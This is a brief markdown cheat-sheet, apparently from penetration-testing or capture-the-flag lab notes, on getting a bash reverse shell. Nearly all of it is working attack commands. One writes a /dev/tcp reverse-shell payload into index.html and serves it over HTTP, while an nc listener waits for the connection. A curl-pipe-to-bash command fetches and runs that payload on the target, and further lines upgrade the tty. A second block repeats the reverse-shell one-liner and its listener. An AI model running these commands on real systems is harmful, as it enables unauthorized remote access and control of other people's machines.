 # Bash

R**everse shell bash**

```bash
echo 'bash -i >& /dev/tcp/10.10.14.3/4444 0>&1' > index.html
sudo python3 -m http.server 80
nc -lvnp 4444
curl 10.10.14.2|bash
python3 -c 'import pty;pty.spawn("/bin/bash");'
CTRL + Z
stty raw -echo
fg
<return>
```



Bash Reverse Shell

```bash
bash -i >& /dev/tcp/10.10.14.40/4444 0>&1

nc -nlvp 4444
```
